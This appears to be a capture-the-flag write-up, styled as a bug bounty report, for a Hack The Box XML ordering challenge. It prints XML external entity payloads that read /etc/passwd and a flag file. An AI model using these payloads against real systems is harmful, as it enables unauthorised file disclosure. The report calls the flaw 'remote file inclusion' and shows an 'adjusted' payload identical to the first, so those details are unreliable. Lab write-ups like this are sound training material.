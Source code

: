 # Bug Bounty Report

## Bug Details
- **Target:** [https://app.hackthebox.com/tracks/OWASP-Top-10](https://app.hackthebox.com/tracks/OWASP-Top-10) (baby WAFfles order machine)
- **Tool Used:** Burp Suite

## Bug Description
The application allows for a remote file inclusion vulnerability through improper handling of XML payloads in the order request.

## Steps to Reproduce
1. Use Burp Suite to intercept the order request.
2. Send the intercepted request to Repeater.
3. Change the content type to XML.
4. Replace the existing JSON with the following payload:
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY payload SYSTEM 'file:///etc/passwd'>]>
    <order>
    <food>&payload;</food>
    </order>
    ```
    -> This initially failed due to the requirement to choose a category first.

5. Investigate the orderController from the web source code to determine the required XML format.
6. Adjust the payload to the correct format:
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY payload SYSTEM 'file:///etc/passwd'>]>
    <order>
    <food>&payload;</food>
    </order>
    ```
    -> The input is not filtered at the orderController and passed directly.

7. Attempt to exploit the vulnerability with the following payload:
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY payload SYSTEM 'file:///flag'>]>
    <order>
    <food>&payload;</food>
    </order>
    ```
    -> Successfully retrieved sensitive information.

## Expected Behavior
The application should properly validate and sanitize user inputs, especially XML payloads, to prevent remote file inclusion vulnerabilities.

## Actual Behavior
The application allows for the inclusion of external entities via XML payloads without proper validation, leading to potential information disclosure.

## Vulnerability Impact
This vulnerability could lead to unauthorized access to sensitive files on the server, potentially exposing critical information.

## Proof of Concept
- Payload used:
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE root [<!ENTITY payload SYSTEM 'file:///etc/passwd'>]>
  <order>
  <food>&payload;</food>
  </order>
  '''
- Successful retrieval of sensitive information.

## Affected Components
- The orderController in the application is affected by this vulnerability.

## Recommendations
1. Implement proper input validation and sanitization for XML payloads to prevent remote file inclusion vulnerabilities.

2. Regularly update and patch server-side components to mitigate potential security risks.